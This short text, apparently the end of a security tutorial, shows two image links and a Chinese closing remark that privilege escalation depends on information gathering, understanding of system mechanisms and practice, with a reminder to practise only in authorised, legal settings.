



成功的权限提升依赖于细致的信息收集、对系统机制的理解以及持续的实践探索。请务必在授权和合法的环境中进行练习。